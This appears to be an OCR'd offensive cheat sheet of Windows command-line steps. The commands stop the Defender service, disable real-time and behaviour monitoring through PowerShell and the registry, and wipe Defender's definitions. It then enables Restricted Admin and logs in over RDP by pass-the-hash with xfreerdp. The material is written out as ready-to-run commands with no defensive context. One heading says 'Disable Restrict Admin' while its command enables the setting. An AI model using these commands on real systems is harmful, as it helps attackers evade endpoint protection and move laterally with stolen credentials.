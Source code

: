 **Disable Windows Defender**
```cmd
sc.exe config WinDefend start= auto
sc.exe start WinDefend
sc.exe stop WinDefend
```

**Disable Threat Protection**
```cmd
Set-MpPreference -DisableRealtimeMonitoring $true
```

```Cmd
“C:\Program Files\Windows Defender\MpCmdRun.exe” -removedefinitions -all
 
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableRealtimeMonitoring " /t REG_DWORD /d 1 /f

REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableBehaviorMonitoring " /t REG_DWORD /d 1 /f
```

**Disable Restrict Admin**
```Powershell
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin  -Value 0

xfreerdp /u:admin /pth:HASH /v:<IP> /cert-ignore
```

